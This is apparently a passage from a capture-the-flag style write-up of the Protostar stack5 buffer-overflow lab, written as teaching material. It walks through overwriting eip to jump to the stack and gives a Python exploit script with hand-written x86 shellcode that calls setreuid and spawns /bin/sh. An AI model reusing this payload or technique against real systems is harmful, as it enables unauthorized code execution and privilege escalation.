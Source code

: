 let,s return to theories again .. we now can control `ebp` and `eip` right . for now we will focus on `eip` because with it we can control program execution or flow as it will be always pointer to current instruction in the `code` or `text` segement in memory as you learned in `assembly x86` .. Hmmm let,s do our job !

now we will make `eip` point at `esp` address value when it pointed. 
let,s modify our fuzz script: `~/fuzz.py`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp="SSSS"
eip="\xe0\xf7\xff\xbf" # represent 0xbffff7e0 on little endian machines. 0xbffff7e0 is address of esp which we will jump to as you know :)
code_to_execute="\xcc"*4
print(fuzz+ebp+eip+code_to_execute)
```
I know you now thinking what is this code_to_execute ? or what even this hex value represent `\xcc` am i right? hold on my friend , every thing will be explained now :D
as you are creative binary exploiter you know now we need to make eip jump to esp and make it execute what we want Hah?
so we need to redirect execution of eip to code esp will point on and esp after stack frame destructed will point on our code for now
and `\xcc` is hex representation for binary opcode which used to represent `int 3` instruction which create a breakpoint you can check it on on Wikipedia here: [INT3 Wiki](https://en.wikipedia.org/wiki/INT_(x86_instruction))

so now as you get it , debuggers frontend use `\xcc` under the hood to create breakpoint traps
so let,s run our code without debugger for now 
![Stack5 Code Executation Works](/assets/img/protostar/stack5-final-fuzz.png)

Oh Our Code Executed :D 

<img alt="gif"  src="https://media1.tenor.com/m/rO6Fh2KNm3sAAAAd/baby-yes.gif" width="350rem" height="100rem" />

let,s modify our code to add a code that we want it to give a shell
you can pick any one from [ShellStorm](https://shell-storm.org/shellcode/index.html) or create your own if you are better at writeing your own shellcode with assembly lang
so i write my own which first : print `[+] Pwned By Sysc4ll3r #` then `setreuid(geteuid(),geteuid())` to set our id for this process to effective user id then execute `/bin/sh`

so let,s write our dirty exploit ;) : `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp="SSSS"
eip="\xe0\xf7\xff\xbf" 
code_to_execute=(
"\x68\x33\x72\x20\x23\x68\x63\x34\x6c\x6c\x68\x20\x53\x79\x73\x68\x64\x20\x42\x79"
"\x68\x50\x77\x6e\x65\x68\x5b\x2b\x5d\x20\x31\xdb\x31\xc9\x31\xd2\x6a\x04\x58\xb3"
"\x01\x89\xe1\xb2\x18\xcd\x80\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd"
"\x80\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x6a\x0b\x58\xcd\x80"
)
print(fuzz+ebp+eip+code_to_execute)
```
Let,s run our exploit ;)
